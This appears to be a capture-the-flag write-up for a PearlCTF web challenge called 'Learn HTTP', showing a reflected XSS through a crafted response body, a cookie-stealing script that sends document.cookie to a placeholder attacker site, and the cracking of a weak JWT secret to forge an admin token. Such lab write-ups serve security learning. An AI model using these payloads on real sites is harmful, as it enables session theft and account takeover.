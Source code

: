 #### Problem: Learn HTTP


Problem Description:

I made a simple web application to teach you guys how HTTP responses work, I hope you enjoy :)
https://learn-http.ctf.pearlctf.in
===========================================================================================================

![image](https://github.com/alexsandusf/CTFWriteups/assets/162010016/470cb8b7-ad4b-4ad1-b4fd-f096c12d6527)


# Step 1

We have a page where we can enter a URL-encoded respone and going to the created link will open the message in plain-text.
We can also have a bot go check the page.

Lets first test to see if we can get an XSS to work.

https://learn-http.ctf.pearlctf.in/resp?body=HTTP%2F1.1%20200%20OK%0D%0A%0D%0A%3Cscript%3Ealert(1)%3C/script%3E

There is no filter so just using <script>alert(1)</script> and URL encoding will lead to XSS reflection.

# Step 2

Now lets see if we can steal the admins cookie as looking at the source code a token is used.

Lets try URL encoding this

HTTP/1.1 200 OK

<script>onload= fetch('Attacker Site'+document.cookie)</script>

------

We get this 

https://learn-http.ctf.pearlctf.in/resp?body=HTTP%2F1.1+200+OK%0D%0A%0D%0A%3Cscript%3Eonload%3D+fetch%28%27attackersite%27%2Bdocument.cookie%29%3C%2Fscript%3E

------

# Step 3

Now we have the JWT Token 
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwiaWF0IjoxNzA5OTI2MTE5fQ.X7k1ADBtMNXXy-KJ5XxIW5dyGE884FpatMKJ_W7DcT0

# Decoded Token
HEADER:ALGORITHM & TOKEN TYPE

{
  "alg": "HS256",
  "typ": "JWT"
}
PAYLOAD:DATA

{
  "id": 1,
  "iat": 1709926119
}

Looking at the source code we need ID set to 2 in order to be able to visit the /flag endpoint
We are unable to change the token unless we are able to get the JWT key

JWT cracker
https://github.com/lmammino/jwt-cracker

JWT Edit
https://jwt.io/

I used this JWT cracker and edit tool in order to find the secret key and change JWT token

# Step 4

![image](https://github.com/alexsandusf/CTFWriteups/assets/162010016/3796dcd5-5f86-441f-a932-3073a324cf65)

Secret key: banana

Next we can just edit the token and visit the flag endpoint in order to get the flag








